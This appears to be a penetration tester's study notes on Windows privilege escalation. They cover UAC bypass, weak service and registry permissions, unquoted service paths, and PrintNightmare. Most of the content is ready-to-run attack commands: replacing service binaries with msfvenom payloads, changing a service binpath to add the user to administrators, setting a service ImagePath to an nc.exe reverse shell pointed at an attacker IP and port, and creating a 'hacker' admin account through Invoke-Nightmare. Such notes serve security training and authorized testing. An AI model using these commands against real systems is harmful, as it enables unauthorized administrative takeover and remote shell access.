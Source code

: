 [Windows Vulnerabilities.](https://msrc.microsoft.com/update-guide/vulnerability)
[User Account Control](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
	consent prompted elevated privileges. 
	[How it works](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) 
		[10 Group Policy Settings](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/settings-and-configuration?tabs=intune)
		Forces an attacker to become noisy. 
		RID 500 Admin always operates at a higher mandatory level with Admin Approval Mode (AAM) enabled. 
		New accounts operate at medium level.
	Confirm UAC is enabled:
		`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA`		
	Check UAC level:
		`REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin`
			0x5 is the highest level.
	UAC works different on windows [versions](https://en.wikipedia.org/wiki/Windows_10_version_history)
			PS = `[environment]::OSVersion.Version`
	[UAC bypasses.](https://github.com/hfiref0x/UACME)
		Find a UAC that works in targets window version under keys. 
		Google may have tutorial for exploit?
			Run a DLL
				`rundll32 shell32.dll,Control_RunDLL <path to dll>`
Weak Permissions 
	[SharpUp](https://github.com/GhostPack/SharpUp/) from GhostPack suite
		Checks for weak ACLs on binaries. 
			`.\SharpUp.exe audit`
			Service Binaries:
			Verify vuln with [icals](https://ss64.com/nt/icacls.html)
				`icals <path to exe>`
			Replace the binary with a malicious one through msfvenom
				`cmd /c copy /Y <exe> "<path to target>"`
				`sc start <service name>
			Service Permissions 
			Check permissions with [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk)
			`accesschk.exe /accepteula -quvcw <service>` (.exe not needed)
					-q = omit banner
					-u = surpress erros
					-v = verobse
					-c = specify name of windows service
					-w = objects with write only. 
				Change the service binary:
					`sc config WindscribeService binpath="cmd /c net localgroup administrators <user>/add"``
				Stop the service 
					`sc stop <service>`
				Start the service 
					`sc start <service>`
				confirm local access
					`net local group administrators`
	Cleanup
		Revert the binary path 
			`sc config <service> binpath="<path>"`
		Start the service 
			`sc start <service>`
	Unquoted Service Paths
		Rare to exploit. If service path isn't in ""  windows will search for it in root path. 
		May be able to hijack the service. 
		Search for unquoted service path:
			`wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """``
	Permissive Registry ACLs. 
		Search for weak ACLs
			`accesschk.exe /accepteula "<user>" -kvuqsw hklm\System\CurrentControlSet\services`
		Change the ImagePath value in powershell
			`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "<path to nc.exe> -e cmd.exe <reverse ip> <reverse port>"`
	Modify Registry Autorun Binaries.
		`Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl`
		If you have write permissions to a binary you may be able to escalate privileges next time that user logs in. 
Kernel Exploits
	If SAM is readable: [CVE-2021-36934](https://www.exploit-db.com/docs/50245)
	[CVE-2021-1675 / CVE-2021-34527](https://www.exploit-db.com/docs/50537)Print Nightmare
		check for spooler service 
			`ls \\localhost\pipe\spoolss`
		Add local admin with printnightmare 
			`Set-ExecutionPolicy Bypass -scope Process`
		Import powershell script
			`Import-Module ./CVE-2021-1675.ps1`
			`Invoke-Nightmare -NewUser "hacker" -NewPassword "1234" -DriverName "Print"`
		Confirm new user 
			`net user hacker`
			
	
	
	
	


	
	
	
	
